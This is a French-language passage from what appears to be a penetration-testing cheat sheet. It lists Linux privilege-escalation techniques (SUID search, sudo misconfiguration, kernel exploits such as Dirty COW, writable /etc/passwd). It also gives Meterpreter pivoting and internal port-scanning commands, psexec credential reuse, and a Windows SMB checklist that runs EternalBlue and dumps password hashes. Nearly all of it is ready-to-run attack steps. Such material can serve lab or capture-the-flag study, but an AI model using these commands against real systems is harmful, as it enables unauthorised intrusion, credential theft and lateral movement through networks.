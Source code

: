 #### Escalation de privilèges Linux
| Technique | Action |
|-----------|--------|
| **SUID exploitation** | `find / -perm -4000 2>/dev/null` puis GTFOBins |
| **Sudo misconfiguration** | `sudo -l` puis exploitation |
| **Kernel exploits** | Selon version (Dirty COW, etc.) |
| **Writable files** | `/etc/passwd`, scripts cron |

---

## 🎯 Phase 6: Pivoting et mouvement latéral

### 6.1 Découverte réseau interne
```bash
# Dans Meterpreter
ipconfig
route
arp

# Ajouter routes pour pivoting
run autoroute -s 192.168.2.0/24

# Port scanning interne
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.2.0/24
set PORTS 22,80,135,139,445
run
```

### 6.2 Credential reuse
```bash
# Utiliser credentials récupérés sur autres machines
use exploit/windows/smb/psexec
set RHOSTS new_target
set SMBUser administrator
set SMBPass password_found
exploit
```

---

## 📋 Checklist par scénario

### 🔥 Scénario 1: Machine Windows avec SMB
1. ✅ `nmap -sV -sC target`
2. ✅ `use auxiliary/scanner/smb/smb_ms17_010`
3. ✅ Si vulnérable → `use exploit/windows/smb/ms17_010_eternalblue`
4. ✅ Meterpreter → `sysinfo`, `getuid`, `hashdump`
5. ✅ `run post/multi/recon/local_exploit_suggester`
6. ✅ Escalation si nécessaire
